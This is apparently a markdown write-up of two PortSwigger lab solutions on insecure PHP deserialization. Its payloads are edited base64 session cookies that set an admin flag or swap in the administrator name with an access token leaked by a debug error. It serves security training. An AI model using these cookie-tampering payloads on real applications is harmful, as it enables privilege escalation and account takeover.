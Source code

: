 ```yaml
---
description: https://portswigger.net/web-security/deserialization
---
```


# Insecure deserialization

### Lab: Modifying serialized objects

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges.

`Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

`#Decoded O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`

**Solution:**

`Cookie:` **** `session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d`

`#Decoded O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}`

### Lab: Modifying serialized data types

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account.

`Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkdzhrajFnaHlha3c5YzNwdjhvdHM4b3dyem93d2F4MiI7fQ%3d%3d`&#x20;

`#Decoded O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dw8kj1ghyakw9c3pv8ots8owrzowwax2";}`

`Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImR3OGtqMWdoeWFrdzljM3B2OG90czhvd3J6b3d3YXgyIjt9`

`#Decoded O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"dw8kj1ghyakw9c3pv8ots8owrzowwax2";}`

**In response:**

PHP Fatal error: Uncaught Exception: (DEBUG: $access\_tokens\[$user->username] = af827mchu563btdedvusarv5gpp0ptqe, $user->access\_token = dw8kj1ghyakw9c3pv8ots8owrzowwax2, $access\_tokens = \[rgocjqa2qd2z5kw3haze01wf1a8jva8s, af827mchu563btdedvusarv5gpp0ptqe, dw8kj1ghyakw9c3pv8ots8owrzowwax2]) Invalid access token for user administrator in /var/www/index.php:7

**Solution:**

`Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImFmODI3bWNodTU2M2J0ZGVkdnVzYXJ2NWdwcDBwdHFlIjt9`
